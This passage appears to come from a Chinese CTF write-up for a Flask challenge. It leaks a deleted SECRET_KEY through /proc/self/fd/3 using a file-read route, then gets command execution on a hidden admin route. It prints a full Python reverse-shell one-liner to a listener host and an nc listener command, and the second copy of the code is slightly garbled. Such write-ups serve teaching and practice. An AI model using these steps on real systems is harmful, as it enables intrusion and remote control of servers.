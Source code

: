 ```python
    app.run(host='0.0.0.0', port=8080)
```

程序开始运行时,会从`/tmp/secret.txt`获取一个`SECRET_KEY`值, 然后将该文件删除

访问`/no_one_know_the_manager`这个路由时, 会让我们输入一个`key`如果等于`SECRET_KEY`,就可以执行我们输入的命令

现在问题就是如何获取这个`SECRET_KEY`

>**但在 linux 系统中如果一个程序用`open()`打开了一个文件但最终没有关闭他，即便从外部（例如如`os.remove(SECRET_FILE)`）删除这个文件之后，在 `/proc` 这个进程的 `pid` 目录下的 `fd` 文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可得到被删除文件的内容**。`/proc/[pid]/fd` 这个目录里包含了进程打开文件的情况，目录里面有一堆`/proc/[pid]/fd/id`文件
>
><span style='color:black;background:yellow;font-family:hei;font-weight:bold'>对于当前运行的程序本身,我们通过`self`就能够取到其本身的`pid`,那么接下来就可以通过爆破`id`来获取我们需要的文件描述符`/proc/self/fd/[id]`</span>
>
>当一个新进程建立时，此进程将默认有 0，1，2 的文件描述符,分别代表标准输入,标准输出,标准错误输出
>
>那么当打开一个新文件时,文件描述符会从3开始

这里直接试了一下,`id=3`即找到了该文件并下载, 得到`SECRET_KEY`

```
page?url=/proc/self/fd/3
vv4RKbyjTqO/VtyoIAkBGyKrzDp27GbPQc0Ur1hCfbw=
```

能够通过检测:

```
/no_one_know_the_manager?key=vv4RKbyjTqO/VtyoIAkBGyKrzDp27GbPQc0Ur1hCfbw=&shell=ls
```

但是这里并不会回显命令执行的结果

这里需要使用`python`反弹获得shell, 这里让目标执行如下命令

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('监听主机的ip',监听主机的端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

这里的代码为:

```
import os,socket
subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('监听主机的ip',监听主机的端口))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/bash','-i'])
```

然后在我们能够控制的监听主机上使用:

```
nc -lvp 端口号 
```
